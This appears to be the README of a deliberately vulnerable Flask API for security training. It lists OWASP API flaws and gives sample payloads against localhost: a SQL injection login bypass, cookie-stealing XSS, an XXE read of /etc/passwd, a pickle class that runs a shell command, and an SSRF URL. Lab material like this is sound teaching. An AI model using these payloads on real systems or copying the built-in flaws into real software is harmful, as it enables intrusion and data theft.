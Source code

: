 # Intentionally Vulnerable API

⚠️ **WARNING: This is an intentionally vulnerable application. DO NOT deploy in production or expose to the internet!** ⚠️

This is a deliberately vulnerable Flask API created for educational purposes to demonstrate common API security vulnerabilities. It implements the OWASP API Top 10 vulnerabilities and other security issues for learning and testing purposes.

## Vulnerabilities Implemented

1. **Broken Object Level Authorization (BOLA)**
   - Endpoints don't verify if the user has permission to access resources
   - Example: `/posts/<id>` allows access to any post without authorization

2. **Broken Authentication**
   - Plain text password storage
   - Weak JWT implementation
   - No password complexity requirements
   - Example exploit:
     ```bash
     curl -X POST http://localhost:5000/login \
     -H "Content-Type: application/json" \
     -d '{"username": "admin", "password": "password"}'
     ```

3. **Excessive Data Exposure**
   - Sensitive data exposed through API responses
   - Example: `/users` endpoint exposes all user data including passwords
   ```bash
   curl http://localhost:5000/users
   ```

4. **Security Misconfiguration**
   - Debug mode enabled
   - Exposed error messages
   - Running on all interfaces (0.0.0.0)
   - Vulnerable dependency versions

5. **Lack of Rate Limiting**
   - No limits on API requests
   - Vulnerable to brute force attacks

6. **SQL Injection**
   - Login endpoint vulnerable to SQL injection
   - Example exploit:
     ```bash
     curl -X POST http://localhost:5000/login \
     -H "Content-Type: application/json" \
     -d '{"username": "admin\' --", "password": "anything"}'
     ```

7. **Reflected XSS**
   - Search endpoint vulnerable to XSS
   - Example: Visit `/search?q=<script>alert('XSS')</script>`

8. **Stored XSS**
   - Notes endpoint stores and renders unescaped HTML
   - Example exploit:
     ```bash
     curl -X POST http://localhost:5000/notes \
     -H "Content-Type: application/json" \
     -d '{"note": "<script>alert(document.cookie)</script>"}'
     ```

9. **XML External Entity (XXE)**
   - XML processing endpoint vulnerable to XXE
   - Example exploit:
     ```bash
     curl -X POST http://localhost:5000/process-xml \
     -H "Content-Type: application/xml" \
     -d '<?xml version="1.0" encoding="ISO-8859-1"?>
         <!DOCTYPE foo [
         <!ELEMENT foo ANY >
         <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
         <foo>&xxe;</foo>'
     ```

10. **Insecure Deserialization**
    - Pickle deserialization vulnerability
    - Example exploit (Python code):
    ```python
    import pickle
    import base64
    
    class Evil:
        def __reduce__(self):
            import os
            return (os.system, ('id',))
    
    evil_pickle = base64.b64encode(pickle.dumps(Evil())).decode()
    # Send this in request body
    ```

11. **Vulnerable Dependencies**
    - Multiple outdated packages with known vulnerabilities:
      - Flask 0.12.2
      - requests 2.18.4
      - PyJWT 1.5.0
      - and more...

12. **Server-Side Request Forgery (SSRF)**
    - URL fetching endpoint without validation
    - Example: `/fetch-url?url=http://internal-server/admin`

## Setup Instructions

1. Create a virtual environment (recommended):
```bash
python -m venv venv
source venv/bin/activate  # On Windows: venv\Scripts\activate
```

2. Install dependencies:
```bash
pip install -r requirements.txt
```

3. Run the application:
```bash
python main.py
```

The API will be available at `http://localhost:5000`

## API Endpoints

- POST `/login` - Authentication endpoint
- GET `/posts/<id>` - Retrieve posts
- GET `/users` - List all users
- GET `/search` - Search functionality
- POST `/notes` - Add notes
- GET `/notes/<user_id>` - View notes
- POST `/process-xml` - Process XML data
- POST `/deserialize` - Process serialized data
- GET `/fetch-url` - Fetch external URLs

## Educational Purpose

This application is designed for:
- Security researchers
- Penetration testers
- Security awareness training
- Learning about API security vulnerabilities

## Security Notice

🔴 **IMPORTANT: This application contains serious security vulnerabilities. It should NEVER be:**
- Deployed in a production environment
- Exposed to the internet
- Used with sensitive or real data
- Run on a machine with sensitive information

## License

This project is for educational purposes only. Use at your own risk. 